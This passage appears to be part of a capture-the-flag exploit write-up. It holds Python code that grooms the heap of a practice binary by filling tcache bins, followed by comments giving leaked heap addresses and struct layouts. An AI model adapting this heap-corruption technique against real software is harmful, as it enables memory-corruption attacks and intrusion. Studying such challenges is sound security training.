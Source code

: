 ```python
# tcache
for i in range(7):
    add_project(b"target-c", b"dummy" + str(i).encode(), 500)

# place our object snug in the middle
add_project(b"target-c", b"target-p", 5160)

# a few more
for i in range(7, 10):
    add_project(b"target-c", b"dummy" + str(i).encode(), 500)

for i in range(43):
    hire_worker(b"target-c", b"target-p", b"john" + str(i).encode(), 0x40)

# fill up 0x41 tcache as well
for i in range(7):
    hire_worker(b"target-c", b"target-p", b"robot" + str(i).encode(), 0x40)
for i in range(7):
    fire_worker(b"robot" + str(i).encode())

# skip dummy6
for i in range(6):
    remove_project(b"target-c", b"dummy" + str(i).encode())

for i in range(7, 10):
    remove_project(b"target-c", b"dummy" + str(i).encode())

elapse_week()

# john0: 0x555555588820 (size: 0x41)
# project: 0x5555555886a0 (size: 0x51)
# company: 0x555555588320 (size: 0x51)

# worker:
# 0x00: *name
# 0x08: name.size
# 0x10: data
# 0x18: data
# 0x20: salary
# 0x28: *project

# project: 
# 0x00: *name
# 0x08: name.size
# 0x10: data
# 0x18: data
# 0x20: profit_per_week
# 0x28: workers->start
# 0x30: workers->end
# 0x38: workers->capacity
# 0x40: *company

# company:
# 0x00: *name
# 0x08: name.size
# 0x10: data
# 0x18: data
# 0x20: budget
# 0x28: age
# 0x30: projects->start
# 0x38: projects->end
# 0x40: projects->capacity

```